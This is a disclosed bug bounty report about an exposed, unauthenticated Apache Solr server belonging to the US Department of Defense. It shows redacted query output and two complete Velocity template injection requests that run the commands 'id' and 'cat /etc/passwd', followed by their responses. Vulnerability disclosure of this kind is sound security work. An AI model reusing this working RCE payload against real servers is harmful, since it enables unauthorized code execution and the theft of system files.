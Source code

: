 # Apache solr RCE via velocity template

## Report Details
- **Report ID**: 822002
- **URL**: https://hackerone.com/reports/822002
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-03-17T03:28:15.042Z
- **Disclosed**: 2021-01-12T21:49:37.443Z

## Reporter
- **Username**: khizer47
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi team, 

While doing some recon i stumbled upon an IP address http://██████/ The IP took me to a Login Page at ████=https%3A%2F%2F██████████████████

as of the URL suggest this system belongs to US gov. 

Doing a Port scan reveals that POST ██████████ is Open, A lot of doors open if Solr is exposed outside of a trusted network and without administrative authentication.  and the solar instance was without any authentication http://████:████████/ 

Running a Query http://████████:█████████*:*  Showed data from http://██████.mil/ that's why i decided to report it here 

#Query output example: 

````

{
  "responseHeader":{
    "status":0,
    "QTime":0,
    "params":{
      "q":"*:*",
      "_":"1584415352129"}},
  "response":{"numFound":858,"start":0,"docs":[
      {
        "id":"http://███████.mil/instance/relations/locationRelLink#UNIT_TIE_███████",
        "type":["http://███.mil/ont/relations#LocationRelLink"],
        "base.has_link_from_geohash_12_ss":["█████████"],
        "base.has_link_to_geohash_12_ss":["█████████"],
        "base.has_metadata|has_metadata_MIDB-gmi_constraint.has_ownr_producer|US-@id_nidx_ss":["http://███.mil/ont/gmiConstraint/OwnrProducer#US"],
        "base.has_metadata|has_metadata_MIDB-base.is_metadata_of-@id_nidx_ss":["http://█████.mil/instance/relations/locationRelLink#UNIT_TIE_█████"],
        "base.link_predicate|located_at-@id_nidx_ss":["http://██████████.mil/ont/relations#located_at"],
        "base.has_metadata|has_metadata_MIDB-@type_nidx_ss":["http://█████████.mil/ont/base#Metadata"],
        "base.has_metadata|has_metadata_MIDB-dc.source_nidx_ss":["MIDB"],
        "base.link_to-@id_nidx_ss":["http://█████████.mil/instance/base/facility#FAC_███"],
        "base.has_metadata|has_metadata_MIDB-@id_nidx_ss":["http://███████.mil/instance/relations/locationRelLink#UNIT_TIE_██████_has_metadata_MIDB"],
        "base.link_from-@id_nidx_ss":["http://█████.mil/instance/organization/unit#UNIT_████"],
        "_version_":1660996099434872832},
      {
        "id":"http://█████████.mil/instance/base/equipment#██████████",
        "type":["http://██████████.mil/ont/base#Equipment"],
        "gmi_constraint.has_oper_status_ss":["OPR"],
        "equipment.has_nomen|has_nomen_Switch-@type_nidx_ss":["http://████.mil/ont/base#DataQuality"],
        "base.has_location|has_location-base.has_location_name_nidx_ss":["CISCO 3750"],
        "base.has_geo_data|has_geo_data-base.has_geo_metadata|has_geo_metadata_MIDB-base.is_metadata_of-@id_nidx_ss":["http://█████████.mil/instance/base/equipment#████████_has_geo_data"],
        "base.has_geo_data|has_geo_data-base.has_metadata|has_metadata_MIDB-@id_nidx_ss":["http://█████████.mil/instance/base/equipment#████_has_geo_data_has_metadata_MIDB"],
        "base.has_metadata|has_metadata_MIDB-dc.source_nidx_ss":["MIDB"],
        "base.has_country_code|has_country_code_US-base.has_quality_value_nidx_ss":["US"],
        "gmi_constraint.has_condition|has_condition_RDY-@id_nidx_ss":["http://█████.mil/instance/base/equipment#██████████_has_condition_RDY"],
        "base.has_geo_data|has_geo_data-@type_nidx_ss":["http://██████████.mil/ont/base#GeoDataQuality"],
        "base.has_country_code_ss":["US"],
        "gmi_constraint.has_condition|has_condition_RDY-base.has_quality_value_nidx_ss":["RDY"],
        "base.has_geo_data|has_geo_data-base.has_geo_metadata|has_geo_metadata_MIDB-@type_nidx_ss":["http://████████.mil/ont/base#GeoMetadata"],
        "equipment.has_nomen|has_nomen_Switch-base.has_metadata|has_metadata_MIDB-dc.source_nidx_ss":["MIDB"],
        "gmi_constraint.has_condition|has_condition_RDY-base.quality_of-@id_nidx_ss":["http://████████.mil/instance/base/equipment#██████████"],
        "gmi_constraint.has_condition_ss":["RDY"],
        "info.has_graphic|has_graphic-@id_nidx_ss":["http://███.mil/instance/base/equipment#██████████_has_graphic"],
        "gmi_constraint.has_condition|has_condition_RDY-base.has_metadata|has_metadata_MIDB-@type_nidx_ss":["http://█████████.mil/ont/base#Metadata"],
        "gmi_constraint.has_oper_status|has_oper_status_OPR-base.has_metadata|has_metadata_MIDB-@id_nidx_ss":["http://███████.mil/instance/base/equipment#███████_has_oper_status_OPR_has_metadata_MIDB"],
        "gmi_constraint.has_oper_status|has_oper_status_OPR-base.quality_of-@id_nidx_ss":["http://██████.mil/instance/base/equipment#████"],
        "gmi_constraint.has_oper_status|has_oper_status_OPR-base.has_quality_value_enum|OPR-@id_nidx_ss":["http://███.mil/ont/gmiConstraint/OperStatus#OPR"],
        "gmi_constraint.has_oper_status|has_oper_status_OPR-base.has_metadata|has_metadata_MIDB-base.is_metadata_of-@id_nidx_ss":["http://█████████.mil/instance/base/equipment#████_has_oper_status_OPR"],
        "base.has_country_code|has_country_code_US-base.has_metadata|has_met
````

And the Solar Instance is Vulnuberal to RCE via via velocity template 

#Request: 

````
GET ███1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: ██████████:███████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://████████:██████████/solr/
````

#Response:

```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 51

 0 uid=██████████(solr) gid=████(solr) groups=██████(solr)
```

███

#Request:

```
GET █████1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27cat%20/etc/passwd%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: ██████:█████
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://███████:██████/solr/
```

#Response: 

```
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 952

 0 root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
solr:x:███████:███::/home/solr:
```

█████████


It is recommended to firewall Solr and enable authentication for all requests.

## Impact

Remote Code Execution

## Attachments
No attachments
